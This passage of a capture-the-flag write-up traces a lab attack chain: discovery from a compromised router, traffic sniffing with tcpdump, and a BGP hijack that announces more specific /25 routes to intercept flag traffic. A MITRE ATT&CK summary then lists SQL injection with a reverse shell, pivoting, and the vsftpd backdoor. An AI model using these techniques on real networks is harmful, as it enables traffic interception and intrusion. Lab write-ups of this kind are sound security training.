

## Credential Access & Discovery

As we were logged in as root, we could easily read a `/root/flag.txt` file. There I start to analyze the network on the `router1` host:


As we found 2 new networks, I used the `ping` command to find out alive hosts:



Then I tried to find something related to `flag_server` and `flag_client`:





I was amazed the `router1` host has `tcpdump` tool (the previous one had just nothing), so I ran it to see, what is going on in the network:
```bash
timeout 30 tcpdump -i any -w discover.pcap
```

There were no `flag_server` or `flag_client` hosts, and no communication between host (except my own). I decided to connect to local services running on ports 2601 and 2605:





Seems correct. 

## Impact

The route table means that my `router1` gets packets transferred between a `server` and a `client`, and one of them is in a network `172.16.2.0/24` (let's take this scenario). The `router1` should take the packet and forward it to the `Next Hop` host: `172.16.12.102` or `172.16.31.103`. The `BGP` algorithm selected `172.16.12.102` as the best `Path` host (indicated by `*>` instead of `*`), so `router1` forwards packets to his neighbor `172.16.12.102`. `router1` doesn't track the packet further.

It means, we could catch packets going to `172.16.2.0/24` and `172.16.3.0/24` networks. Searching online for `bgp attacks` revealed a `BGP Hijacking: An attacker (or rogue network) deliberately announces IP prefixes they do not own, causing traffic to flow to the attacker's network. This enables traffic interception and, in many cases, has been used to bypass security measures to steal data or commit fraud, such as in the 2018 MyEtherWallet attack.`

That's what we need. To perform the attack, we need to make a more specific route with a smaller IP range. Let's add 2 networks:  `172.16.2.0/25` and `172.16.3.0/25` to our hop host:



## Collection & Credential Access

Now we can `exit` and start sniffing network traffic with `timeout 30 tcpdump -i any -w discover.pcap`. After the capture, let's see which hosts were communicating (`tcpdump -r discover.pcap` command):



We see the communication between `172.16.2.10` and `172.16.3.10`, where one host send to another the packets with length 44 via `UDP` protocol. We can find the flag with the `strings` tool:



For some reason, I didn't find the `TCP` flag inside the captured traffic file, so i did the same capture, but pointed to tcp protocol capture only:
```bash
timeout 30 tcpdump -i any -w tcp.pcap tcp
```
I could only find the end of the flag. Then I increased the timeout to 120 seconds and could find pieces of the flag:



When I repeated these steps again the next day it didn't show the `TCP` flag, so I did timeout 300 or even more and almost got the entire flag (it was missing the `{`):



## Stage Summary in MITRE ATT&CK Context:

-   **Reconnaissance:** Conducted web application reconnaissance (`nmap`, `dirb`) and discovered exposed `.git` directories and a mobile `.apk` file;
-   **Resource Development:** Reverse-engineered the Android application (`apktool`, `jadx`) to analyze encryption and discover API key logic, create decoder for API key decryption;
-   **Initial Access:** Exploited an Error-based SQL Injection vulnerability in the web API (`sqlmap`) to gain command execution and establish a reverse shell;
-   **Lateral Movement:** Performed network discovery from the compromised host (`rustscan`) to identify the `router1` target (`172.16.1.128`). Used the initial foothold as a pivot (`Metasploit autoroute`) to scan and access the internal router network;
 -   **Execution & Privilege Escalation:** Exploited a known backdoor in `vsftpd 2.3.4` on `router1` to gain root access;
-   **Credential Access & Discovery:** Captured network traffic (`tcpdump`) and analyzed router configurations to discover internal routes and target networks (`172.16.2.0/24`, `172.16.3.0/24`);
-   **Impact:** Executed a **BGP Hijacking** attack by advertising more specific routes (`/25` subnets) from the compromised router, causing traffic between the `flag_client` and `flag_server` to be redirected through the attacker-controlled system for interception;    
-   **Collection:** Intercepted and exfiltrated sensitive data (flags) from the hijacked TCP and UDP communication streams.

